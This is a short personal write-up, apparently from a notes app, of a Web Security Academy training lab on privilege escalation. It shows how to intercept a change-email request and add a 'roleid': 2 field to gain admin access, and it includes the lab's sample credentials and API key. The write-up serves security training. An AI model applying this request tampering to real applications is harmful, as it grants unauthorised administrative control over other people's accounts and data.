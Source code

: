 ![[Pasted image 20220513200709.png]]

![[Pasted image 20220513200638.png]]

### User role can be modified in user profile
```bash

# This lab has an admin panel at /admin. It's only accessible to logged-in users with a roleid of 2.

# Solve the lab by accessing the admin panel and using it to delete the user carlos.

# You can log in to your own account using the following credentials: wiener:peter 

Login as wiener:peter
Go to: "My account"
Intercept is on
Change email to preferred choice
Send the POST request to repeater

POST /my-account/change-email HTTP/1.1

Change:

{
"email":"email@email.com"
}

To

{
  "username": "wiener",
  "email": "email@email.com",
  "apikey": "cSkfx78SDuHLcovS8PBSOzE9tkXhvqZk",
  "roleid": 2
}

Note the response now signifies a roleid of "2"

HTTP/1.1 302 Found

"roleid": 2

Go to:

ac611f9c1f58d205c19b3a7a00820069.web-security-academy.net/admin

```

![[Pasted image 20220513202751.png]]
